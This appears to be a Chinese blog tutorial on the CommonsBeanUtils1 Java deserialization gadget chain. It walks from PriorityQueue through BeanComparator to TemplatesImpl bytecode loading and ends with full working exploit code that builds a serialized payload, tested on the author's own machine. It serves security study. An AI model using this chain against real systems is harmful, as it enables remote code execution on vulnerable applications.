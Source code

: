 ```yaml
---
title: Java 反序列化之 CommonsBeanUtils1 反序列化
date: 2025-9-30 21:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


## 前言

因为后续的漏洞利用当中，CommonsBeanUtils 这一条链子还是比较重要的，不论是 shiro 还是后续的 fastjson，都是比较有必要学习的。

在已经学习一些基础知识与 CC 链的情况下，最终链子就可以自己跟着 yso 的链子利用走一遍写 EXP 了

## 环境搭建

jdk8 不受版本影响均可
其余环境如下所示

```xml
<dependency>  
 <groupId>commons-beanutils</groupId>  
 <artifactId>commons-beanutils</artifactId>  
 <version>1.9.2</version>  
</dependency>  
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.1</version>  
</dependency>  
<!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->  
<dependency>  
 <groupId>commons-logging</groupId>  
 <artifactId>commons-logging</artifactId>  
 <version>1.2</version>  
</dependency>
```

## JavaBean

`JavaBean`我简单通俗理解就是类的`getxxx方法`和`setxxx方法`，一个是用来获取值，一个是用来设置值

`Commons-BeanUtils` 中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任意 `JavaBean` 的 `getxxx方法`

```java
package org.example;

import org.apache.commons.beanutils.PropertyUtils;

public class commonsbean {
        public static class A{
        private String name = "aaa";

        public String getName() {
            return name;
        }

        public void setName(String name) {
            this.name = name;
        }
    }
    public static void main(String[] args) throws Exception {
        System.out.println(PropertyUtils.getProperty(new A(), "name"));
    }
}
```

通过`PropertyUtils.getProperty`方法就可以直接调用`getxxx`方法

# CommonsBeanUtils1 链子分析

## 调用链

![image-20250930204857564](./Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%20CommonsBeanUtils1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20250930204857564.png)

## 链子尾部-TemplatesImpl动态加载字节码

我们链子的尾部是通过动态加载 TemplatesImpl 字节码的方式进行攻击的

之前CC链是到`newTransformer`然后去找别的方法了，同名类下还有`getOutputProperties`调用了`newTransformer()`，这就是一个getter方法，可以通过`PropertyUtils.getProperty`去调用

![image-20250930203550905](./Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%20CommonsBeanUtils1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20250930203550905.png)

```
PropertyUtils.getProperty(TemplatesImpl,OutputProperties);
```

后半段代码如下

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.beanutils.PropertyUtils;

import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class commonsbean {
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl());
//        templates.getOutputProperties();
        PropertyUtils.getProperty(templates,"outputProperties");
    }
    public static void setfieldvalue(Object obj,String fieldname,Object Value) throws Exception{
        Class c = obj.getClass();
        Field field = c.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,Value);
    }

}
```

## 链子头部-CC4链

接下来去找哪个调用了`getProperty`方法，找到`BeanComparator`中的`compare()`调用了`getProperty()`

![image-20250930204212457](./Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%20CommonsBeanUtils1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20250930204212457.png)

到了`compare`时就是CC4链的前半段了，全部在`PriorityQueue类`中

![image-20250930204849432](./Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%20CommonsBeanUtils1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20250930204849432.png)

## BeanComparator.compare()调用getProperty()

```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl());
//        templates.getOutputProperties();
//        PropertyUtils.getProperty(templates,"outputProperties");
        BeanComparator comparator = new BeanComparator("outputProperties",null);
        comparator.compare(templates,templates);
```

## PriorityQueue类执行后续链子

之前CC4链的时候就说过，要进入到`heapify`函数的`for`循环中执行`siftDown`就要`size`大于2，`size>>>1`就是正数除以2的意思，所以要通过`add函数`给数组添加元素

![image-20250930212044441](./Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%20CommonsBeanUtils1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20250930212044441.png)

但是add时也会调用`compare()`函数，所以在add之前不能让链子完整，等add之后通过反射将上面的值重新赋值为完整的链子，再进行序列化和反序列化

![image-20250928161513481](./Java%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8B%20CommonsBeanUtils1%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20250928161513481.png)

## 完整代码

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.beanutils.PropertyUtils;

import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class commonsbean {
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setfieldvalue(templates,"_name","a");
        setfieldvalue(templates,"_bytecodes",new byte[][]{code});
        setfieldvalue(templates,"_tfactory",new TransformerFactoryImpl());
//        templates.getOutputProperties();
//        PropertyUtils.getProperty(templates,"outputProperties");

        BeanComparator comparator = new BeanComparator();
//        comparator.compare(templates,templates);
        PriorityQueue priorityQueue = new PriorityQueue(2,comparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

        setfieldvalue(comparator,"property","outputProperties");
        setfieldvalue(priorityQueue,"queue",new Object[]{templates,templates});
        serialize(priorityQueue);
        unserialize();

    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(Files.newOutputStream(Paths.get("commonsbean.ser")));
        objectOutputStream.writeObject(obj);
    }
    public static void unserialize() throws Exception {
        java.io.ObjectInputStream objectInputStream = new java.io.ObjectInputStream(Files.newInputStream(Paths.get("commonsbean.ser")));
        objectInputStream.readObject();
    }
    public static void setfieldvalue(Object obj,String fieldname,Object Value) throws Exception{
        Class c = obj.getClass();
        Field field = c.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,Value);
    }

}

```

